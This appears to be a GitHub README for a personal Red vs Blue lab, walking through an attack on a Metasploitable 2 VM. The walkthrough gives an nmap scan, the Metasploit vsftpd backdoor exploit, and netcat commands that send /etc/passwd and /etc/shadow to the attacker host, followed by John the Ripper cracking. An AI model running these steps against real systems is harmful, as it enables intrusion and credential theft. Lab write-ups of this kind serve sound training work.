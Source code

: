 # Offensive-and-Defensive-Cybersecurity-Project
 Overview
This repository documents my personal **Red vs Blue cybersecurity lab** — a simulated corporate network environment designed to practice **offensive** and **defensive** security skills.  
The goal of this project is to replicate real-world scenarios, execute attack simulations, and develop security controls to detect, mitigate, and respond to threats.

---

 🎯 Objectives
- Simulate realistic cyber attacks (Red Team)
- Harden systems and deploy defenses (Blue Team)
- Develop and test incident response playbooks
- Document findings, improvements, and lessons learned

---

🖥️ Lab Architecture

| Role          | OS / Tools Used | IP Address |
|---------------|-----------------|
| **Attacker**  | Kali Linux (Nmap, Metasploit,  John the Ripper) | 192.168.27.5
| **Victim**    | Metasploitable 2 (vulnerable Linux target) | 192.168.27.4
| **Defender**  | Ubuntu Server (UFW firewall, fail2ban, IDS/IPS) | 192.168.27.10

## ⚔️ Red Team Activities
- **Reconnaissance:** Nmap scanning for open ports & services
- **Exploitation:** Using Metasploit to gain shell access
- **Post-Exploitation:** Dumping `/etc/passwd` and `/etc/shadow` files
- **Password Cracking:** Using `John the Ripper` and `hashcat`
- **Persistence:** Establishing backdoors

---

## 🛡️ Blue Team Activities
- **System Hardening:** Removing unused services, updating packages
- **Firewall Rules:** UFW and iptables configurations
- **Intrusion Detection:** Installing and tuning Snort/Suricata
- **Log Analysis:** Reviewing `/var/log` for suspicious activity
- **Incident Response:** Blocking attacker IPs, restoring services

---

## 🛠 Tools & Technologies
- **Offense:** Nmap, Metasploit, Hydra, John the Ripper
- **Defense:** UFW, fail2ban, Snort, Wireshark
- **Utilities:** netcat, tcpdump, OpenVAS

- ---

--Step 1: VM Startup & Recon 

---


![Spinup](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/Spinupvm.png)


--ip a (check IP)

![verifyIP](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/verify%20ips.png)

--nmap -sS -sV -0 192.168.27.4

![nmap](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/nmapscan.png)

--Step 2:  Exploitation


--msfconsole 

![msfconsole](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/msfconsole.png)


--use exploit/unix/ftp/vsftpd_234_backdoor

--set RHOSTS 192.168.27.4

--run

![runPayload](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/runpayload.png)


--Step 3: File Extraction




--nc -lvnp 9001 > passwd

--nc -lvnp 9002 > shadow

--cat /etc/passwd | nc 192.168.27.5 9001

--cat /etc/shadow | nc 192.168.27.5 9002

![extract](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/extractfiles.png)



--Step 4: Password Cracking

--john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt shadow
![John](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/johnrun.png)

--john -show shadow

![johnshow](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/johnshow.png)






## 📅 Progress Log
- **08/09/2025** Initial lab setup in VirtualBox
- **08/10/2025** Performed reconnaissance and scanning with Nmap
- **08/10/2025** Gained shell access to Metasploitable via FTP exploit
- **08/10/2025** Extracted password hashes and began cracking
- **08/11/2025** Implemented UFW firewall rules on Ubuntu defender
